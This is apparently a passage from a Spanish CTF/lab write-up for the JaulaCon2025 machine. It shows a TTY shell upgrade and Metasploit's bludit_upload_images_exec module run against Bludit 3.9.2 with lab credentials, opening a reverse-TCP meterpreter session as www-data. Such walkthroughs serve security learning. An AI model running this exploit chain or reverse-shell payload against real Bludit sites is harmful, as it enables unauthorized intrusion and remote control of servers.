 Ya solo tenemos que obtener una sesión interactiva:
```bash
# Paso 1:
script /dev/null -c bash

# Paso 2: Presiona CTRL + Z

# Paso 3:
stty raw -echo; fg

# Paso4:reset -> xterm

# Paso 5:
export TERM=xterm
export SHELL=bash
stty rows 51 columns 189
www-data@JaulaCon2025:/var/www/html/bl-content/tmp/temp$ whoami
www-data
```
Listo.

<br>

<h2 id="Metasploit">Utilizando Módulo bludit_upload_images_exec de Metasploit Framework para Explotar Bludit 3.9.2</h2>

También podemos aplicar el **Directory Traversal** con el módulo `exploit/linux/http/bludit_upload_images_exec` de **Metasploit Framework**, pues está dirigido a la versión de **Bludit 3.9.2**, que ya comprobamos que está utilizando.

Inicia **Metasploit** y usa el módulo:
```bash
msfconsole -q
[*] Starting persistent handler(s)...
msf6 > use exploit/linux/http/bludit_upload_images_exec
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(linux/http/bludit_upload_images_exec) >
```

Configurémoslo:
```bash
msf6 exploit(linux/http/bludit_upload_images_exec) > set BLUDITPASS cassandra
BLUDITPASS => cassandra
msf6 exploit(linux/http/bludit_upload_images_exec) > set BLUDITUSER Jaulacon2025
BLUDITUSER => Jaulacon2025
msf6 exploit(linux/http/bludit_upload_images_exec) > set RHOSTS 192.168.1.240
RHOSTS => 192.168.1.240
```

Ejecútalo:
```bash
msf6 exploit(linux/http/bludit_upload_images_exec) > exploit
[*] Started reverse TCP handler on Tu_IP:4444 
[+] Logged in as: Jaulacon2025
[*] Retrieving UUID...
[*] Uploading EchGsZJLeF.png...
[*] Uploading .htaccess...
[*] Executing EchGsZJLeF.png...
[*] Sending stage (40004 bytes) to 192.168.1.240
[+] Deleted .htaccess
[*] Meterpreter session 1 opened (Tu_IP:4444 -> 192.168.1.240:51264) at 2025-04-11 19:38:34 -0600

meterpreter > getuid
Server username: www-data
```
Bien, ganamos acceso. 
